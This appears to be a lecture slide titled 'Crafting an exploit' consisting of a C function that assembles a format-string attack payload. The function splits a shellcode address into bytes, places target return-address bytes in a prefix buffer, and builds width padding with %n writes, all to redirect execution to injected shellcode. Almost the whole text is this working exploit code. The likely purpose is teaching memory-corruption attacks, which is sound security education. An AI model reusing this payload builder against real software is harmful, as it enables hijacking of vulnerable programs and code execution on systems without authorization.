

# Crafting an exploit
void assemble_format(u_long eip_addr, u_long shellcode_addr, u_int previous) {
   unsigned int tmp = 0;
   unsigned int copied = previous;
   unsigned int num[4] = {
      (unsigned int) (shellcode_addr & 0x000000ff),
      (unsigned int)((shellcode_addr & 0x0000ff00) >> 8),
      (unsigned int)((shellcode_addr & 0x00ff0000) >> 16),
      (unsigned int)((shellcode_addr & 0xff000000) >> 24)
   };
   memset (prepend_buffer, '\0', sizeof(prepend_buffer));
   memset (append_buffer, '\0', sizeof(append_buffer));
   for (int i = 0; i < 4; i++) {
      copied = copied % 0x100;
      if ( (i > 0) && (num[i-1] == num[i]) ) /* copied == num[i], no change */
         strcat (append_buffer, "%n");
      else if (copied < num[i]) {
         if ( (num[i] - copied) <= 10) {
            sprintf (append_buffer+strlen(append_buffer), "%.*s", (int)(num[i] - copied), "SECURITY.IS");
            copied += (num[i] - copied);
            strcat (append_buffer, "%n");
         } else {
            sprintf (append_buffer+strlen(append_buffer), "%%.%du", num[i] - copied);
            copied += (num[i] - copied);
            strcat (append_buffer, "%n");
            strcat (prepend_buffer, "AAAA"); /* dummy */
         }
      } else { /* copied > num[i] */
         tmp = ((num[i] + 0xff) - copied);
         sprintf (append_buffer+strlen(append_buffer), "%%.%du", tmp);
         copied += ((num[i] + 0xff) - copied);
         strcat (append_buffer, "%n");
         strcat (prepend_buffer, "AAAA");
      }
      sprintf (prepend_buffer+strlen(prepend_buffer), "%c%c%c%c",
         (unsigned char) ((eip_addr+i) & 0x000000ff), (unsigned char)(((eip_addr+i) & 0x0000ff00) >> 8),
         (unsigned char)(((eip_addr+i) & 0x00ff0000) >> 16), (unsigned char)(((eip_addr+i) & 0xff000000) >> 24));
   }
   while (strlen(prepend_buffer) < ADDRESS_BUFFER_SIZE) { strcat (prepend_buffer, "X"); }
}